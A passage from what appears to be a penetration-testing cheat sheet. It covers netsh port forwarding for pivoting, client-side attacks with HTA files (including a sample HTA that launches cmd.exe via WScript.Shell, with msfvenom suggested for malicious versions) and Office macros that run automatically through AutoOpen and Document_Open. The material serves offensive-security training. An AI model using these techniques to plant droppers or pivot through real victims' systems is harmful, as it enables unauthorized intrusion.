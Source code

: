 ### `Netsh`

> Installed by default on every modern version of Windows.
 

⚠️**IP Helper service** must be running and IPv6 support must be enabled for the interface we will use⚠️

```powershell
netsh interface portproxy add v4tov4 listenport=$PORT listenaddress=$IP connectport=$PORT connectaddress=$IP
```

## 🤠 Client-side attack

### 🖱️HTA application

> Files with the extension `.hta` are automatically executed by the **Internet Explorer** (IE) browser as HTML application (via **`mshta.exe`**).
 

💡 We can use `MSFvenom` to generate a HTA malicious application [Link](https://github.com/amirr0r/notes/blob/master/Infosec/boot2root-cheatsheet.md#msfvenom)

⚠️ If we visit a URL containing a HTML application, IE will trigger two popups. One that asks us if we want to open or save the file. Another security warning to inform the application will be opened outside the Protected mode.

Example [Windows Script Host Shell object](https://docs.microsoft.com/en-us/previous-versions/windows/internet-explorer/ie-developer/windows-scripting/aew9yb99(v=vs.84)) opening **calc.exe** via [ActiveXObjects](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Microsoft_Extensions/ActiveXObject):

```html
<html>

<script>
  var c = 'cmd.exe'
  new ActiveXObject('WScript.Shell').Run(c);
</script>

<head></head>

<body>
  <script>
    self.close();
  </script>
</body>

</html>
```

### 🖥️ Office documents

- Malicious macros:
    - Go to *View > Macros* to add macros. Do not forget to embed the macros in the doc via *Macros in: Document1 (document)*!
    - Add Macro(s):
        - The `AutoOpen` procedure is executed when a new document is opened
        - The `Document_Open` procedure is executed when an already-open document is re-opened
            